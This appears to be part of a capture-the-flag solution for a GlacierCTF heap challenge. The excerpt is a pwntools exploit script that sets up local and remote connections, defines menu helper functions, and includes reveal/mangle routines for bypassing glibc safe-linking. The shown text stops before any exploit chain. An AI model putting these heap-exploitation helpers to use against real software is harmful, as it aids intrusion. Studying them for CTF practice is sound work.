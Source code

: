 ### Final Solve Script

```python
#!/usr/bin/env python3

# type: ignore
# flake8: noqa

from pwn import *

elf = context.binary = ELF("./app", checksec=False)


def start(argv=[], *a, **kw):
    nc = "nc chall.glacierctf.com 13373"
    nc = nc.split()
    host = args.HOST or nc[1]
    port = int(args.PORT or nc[2])
    if args.REMOTE:
        return remote(host, port)
    else:
        args_ = [elf.path] + argv
        if args.NA:
            args_ = ["setarch", "-R"] + args_
        return process(args_, env=env, *a, **kw)


def create(rating: bytes):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"rating\n> ", rating)


def delete(idx):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"remove?\n> ", str(idx).encode())


def show():
    io.sendlineafter(b"> ", b"3")


def scream(aaa: bytes):
    io.sendlineafter(b"> ", b"4")
    io.sendlineafter(b"content!\n", aaa)


def admin():
    io.sendlineafter(b"> ", b"5")


def reveal(ptr):
    mask = 0xfff << 36
    while mask:
        ptr ^= (ptr & mask) >> 12
        mask >>= 12
    return ptr


def mangle(pos, ptr):
    return (pos >> 12) ^ ptr


env = {}
```